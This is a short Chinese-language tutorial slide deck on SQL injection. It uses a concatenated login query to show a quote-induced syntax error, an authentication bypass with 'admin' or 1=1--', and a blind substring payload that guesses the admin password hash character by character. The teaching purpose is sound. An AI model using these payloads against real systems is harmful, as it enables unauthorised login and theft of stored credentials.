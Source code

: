 
# SQL Injection

---

## 這啥

--

一種故意塞奇怪的內容讓別人的程式講錯話的手法

---

✋🌰

--

有聽過**棒球隊棒球隊**這個相聲橋段嘛

--

- 誰在一壘
- 什麼在二壘
- 三壘我不知道

--

當某些常用有特殊意義的字詞

混進句子裡的時候會造成的誤解

--

尤其是當你直接把別人給的資料

無條件加進 SQL query 的時候

---

好比說你要登入

你輸入了 帳號: admin 密碼: meow

假設拼出來的 SQL 指令長這樣

```sql
SELECT * from Users
  where user = 'admin' and password = md5('meow');
```

--

密碼不對啥都沒有

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 +----------+--------------------------------------+
```

---

字串是用單引號包的呢

那在參數裡加個 `'` 好了

帳號: `admin'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin'' and password = md5('meow');
```

--

上色爆炸啦

這行拿去跑會噴錯誤

> ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'meow')' at line 1

---

那如果說我們故意把他湊成有意義的呢

--

帳號: `admin' or 1=1--'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or 1=1--' and password = md5('meow');
```

--

OOPS

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 | admin    | 5f4dcc3b5aa765d61d8327deb882cf99     |
 +----------+--------------------------------------+
```

--

這是最基本的邏輯注入

讓他選出 admin 的資料

---

或者偷看某個東西對不對

像是你只知道成不成功的時候

--

帳號: `admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--'`

密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--' and password = md5('meow');
```

--

如果過了

代表 `admin` 的 `password` 那一欄

第一個字元是 `a` 或 `A`

> 雖然很顯然不是 (看上一個)

---

